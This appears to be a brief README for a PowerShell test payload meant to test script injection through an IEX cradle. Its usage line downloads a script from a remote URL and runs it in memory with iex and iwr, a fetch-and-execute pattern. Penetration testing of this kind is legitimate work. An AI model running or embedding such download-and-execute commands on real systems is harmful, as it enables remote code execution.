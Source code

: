 # PSCalcPayload
For use in an IEX cradle to test PowerShell script injection.

# Usage
```powershell
iex (iwr 'https://raw.githubusercontent.com/BradyDonovan/PSCalcPayload/master/script.ps1' -UseBasicParsing)
```
